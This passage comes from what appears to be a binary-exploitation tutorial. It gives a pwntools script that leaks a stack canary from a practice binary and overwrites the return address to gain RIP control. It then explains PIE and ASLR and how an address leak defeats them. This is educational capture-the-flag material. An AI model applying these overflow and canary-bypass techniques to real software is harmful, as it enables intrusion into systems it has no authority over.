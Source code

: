 ```py
from pwn import *

elf = context.binary = ELF("./chal",checksec=False)
p = elf.process()

gdb.attach(p,'''
    init-gef
''')

payload = b"a"*0x28 + b"\x01"
p.send(payload)
canary = p.recvline()[0x28:0x28+8]
canary = u64(canary.ljust(8,b"\x00")) - 1

payload2 = b"a"*0x28 + p64(canary) + p64(0x0) + p64(0xdeadbeef)
p.send(payload2)

p.interactive()
```

<img src="https://raw.githubusercontent.com/manasghandat/manasghandat.github.io/master/assets/img/Images/Intro_to_pwn_3/3.png" alt="RIP Control">

As you can see we have `RIP` control.

# PIE and ASLR

## Concept

Position Independent Executables (PIE) is a security mechanism that is commonly used in modern operating systems to protect against memory-based attacks. PIE is a technique that randomizes the memory location of the code and data sections of an executable file each time it is loaded into memory, making it harder for attackers to predict the location of critical `data` and `code`.

The concept of PIE is based on the idea of Address Space Layout Randomization (ASLR). ASLR works by randomizing the location of the executable's `stack`, `heap`, and `libraries` each time the program is loaded into memory, making it harder for attackers to predict the location of critical data and code. PIE randomizes the location of the `code` and `data` section.

In case of PIE the function base is unknown but the offsets of the function from the base remain the same. Also an interesting thing to note it that the base address in case of PIE and ASLR will have the three zeros

To view the address of various sections we can use the `vmmap` command inside of `gef`

<img src="https://raw.githubusercontent.com/manasghandat/manasghandat.github.io/master/assets/img/Images/Intro_to_pwn_3/4.png" alt="Vmmap command">

## Exploitation

In order to exploit PIE or ASLR we need leaks. If we can leak any address of `code` section we can defeat PIE as we have the offsets of various addresses. Thus we can easily find the PIE base and then find the address of the function we require by adding the PIE base to the offset of the function.

